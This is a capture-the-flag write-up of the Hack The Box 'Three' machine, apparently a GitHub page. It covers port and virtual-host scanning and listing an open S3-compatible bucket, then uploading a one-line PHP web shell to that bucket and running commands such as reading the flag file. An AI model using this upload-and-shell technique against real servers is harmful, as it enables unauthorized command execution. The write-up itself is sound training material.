






# Three

    

Lab link: [Three](https://app.hackthebox.com/starting-point)

## Completion proof


## Overview

Three is a Very Easy Hack The Box Starting Point machine. The path combines web and virtual-host enumeration with an S3-compatible storage service. A writable bucket exposes a PHP file through the website, which allows command execution as the web server account and retrieval of the lab flag.

## Objective

Identify the exposed services, discover the S3 subdomain, inspect the bucket, and use the demonstrated web execution path to retrieve the flag from `/var/www/`.

## Scope and evidence

This write-up documents work against the authorized Hack The Box Starting Point target. The target address is represented as `<target-ip>`, and the flag is intentionally omitted. Screenshots are included in the order the steps occurred; the completion proof is shown first.

## Investigation process

### 1. Scan the target

I started with a full TCP port scan:

```bash
nmap -Pn -p- -T4 --min-rate 2000 <target-ip>
```

The scan found two open TCP ports: SSH on 22 and HTTP on 80. The web service was the relevant entry point for this machine.



### 2. Inspect the website and resolve its hostnames

The website presented itself as **The Toppers**. Its contact information used the `thetoppers.htb` domain. Since this lab hostname is not resolved by public DNS, I mapped the target address locally in `/etc/hosts`. The S3 virtual host discovered later also needs its own entry:

```text
<target-ip> thetoppers.htb
<target-ip> s3.thetoppers.htb
```

The hosts file makes both names resolve to the current lab target from Kali. The machine address can change when the lab is restarted, so `<target-ip>` should be replaced with the address shown by HTB.



### 3. Enumerate virtual hosts

I used Gobuster's virtual-host mode with a common subdomain wordlist:

```bash
gobuster vhost \
  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://thetoppers.htb \
  --append-domain
```

Gobuster identified `s3.thetoppers.htb`. Its root path returned HTTP 404 during the scan, but the distinct response still identified a candidate virtual host. Visiting that hostname directly returned `{"status":"running"}`, confirming that the service was active. The scan also produced `gc._msdcs.thetoppers.htb` with a 400 response; that result was not needed for the solution.



### 4. Enumerate the S3 bucket

The discovered endpoint behaved like an Amazon S3 service. I used the AWS CLI with temporary placeholder credentials, which this lab endpoint accepted, and specified the custom endpoint explicitly:

```bash
AWS_ACCESS_KEY_ID=test AWS_SECRET_ACCESS_KEY=test \
  aws --endpoint-url=http://s3.thetoppers.htb s3 ls
```

This listed the `thetoppers.htb` bucket. I then listed its contents:

```bash
AWS_ACCESS_KEY_ID=test AWS_SECRET_ACCESS_KEY=test \
  aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

The bucket contained `images/`, `.htaccess`, and `index.php`. The bucket name matching the website domain suggested that uploaded objects could be served by the website.



### 5. Upload a PHP command endpoint

To check whether a PHP file uploaded to the bucket would execute through the website, I created a small command endpoint and uploaded it:

```bash
printf '%s\n' '<?php system($_GET["cmd"]); ?>' > shell.php

AWS_ACCESS_KEY_ID=test AWS_SECRET_ACCESS_KEY=test \
  aws --endpoint-url=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/shell.php
```

I requested it through the main website with a harmless identity check:

```text
http://thetoppers.htb/shell.php?cmd=whoami
```

The response was `www-data`. This confirmed that the uploaded PHP file was being interpreted by the web server and that the command ran with the web service account's privileges.



### 6. Retrieve the flag

Using the same endpoint, I read the requested flag file:

```text
http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt
```

The response contained the flag, which I submitted to HTB. Its value is omitted here.



## Technical analysis

The key issue was the combination of an S3-compatible bucket that accepted uploads and a website that served uploaded PHP files as executable code. The `system()` call passed the `cmd` query parameter to the operating system, creating command execution as `www-data`. The evidence establishes web-account command execution and access to the requested flag file; it does not establish an interactive shell or a root shell.

## Lessons learned

- Scan all TCP ports before choosing which service to investigate.
- Add discovered lab hostnames to the local hosts file when DNS does not resolve them.
- In virtual-host enumeration, compare response codes and sizes; an HTTP 404 can still distinguish a candidate host from the default host.
- Use the AWS CLI `--endpoint-url` option when connecting to a non-AWS S3-compatible service.
- Treat writable web storage as a serious risk when uploaded files can be executed by the web server.
- Keep target-specific addresses and submitted flags out of public write-ups.

## Result

The Three Starting Point objective was completed successfully. The submitted flag and target address are not reproduced in this write-up.
